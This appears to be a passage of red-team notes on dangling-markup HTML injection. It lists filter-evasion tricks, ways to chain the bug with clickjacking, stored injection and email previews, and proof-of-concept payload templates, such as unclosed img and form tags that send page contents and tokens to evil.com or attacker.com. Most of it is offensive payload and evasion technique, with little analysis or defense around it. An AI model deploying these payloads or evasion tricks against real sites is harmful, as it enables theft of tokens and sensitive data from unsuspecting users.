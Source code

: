 
**Pros & Cons**

* ✅ Uses only well-formed HTML — more likely to pass “safe HTML” filters.
* ❌ Requires victim to **manually submit** the form (user interaction needed).

---

## **Advanced Red-Team Notes**

---

### **Filter Evasion Tricks**

If HTML filtering is in place:

* Try **case variations**: `<IMG>` instead of `<img>`
* Use **protocol-relative URLs**: `src='//attacker.com/...`
* Use **tag smuggling**:

  ```html
  <img src='//attacker.com/cap?d=<x><y>
  ```

  where `<x>` and `<y>` are allowed harmless tags but break parsing predictably.

---

### **Combining with Other Bugs**

* If you can cause the victim to auto-submit the form (`<input type=submit autofocus>` or CSS clickjacking), you remove the need for manual interaction.
* Combine with **Stored HTML Injection** in persistent areas (e.g., profile signature) to increase exposure.
* Combine with **email preview attacks** to capture tokens from authenticated users opening attacker-sent mail.

---

### **PoC Payload Template — Case 1**

```html
<img src='https://evil.com/grab?dump=
```

* Place where HTML with sensitive fields follows quickly after injection.
* Ensure **no quote or tag closure** until after the sensitive fields.

---

### **PoC Payload Template — Case 2**

```html
<form action="https://evil.com/dump" method="POST">
```

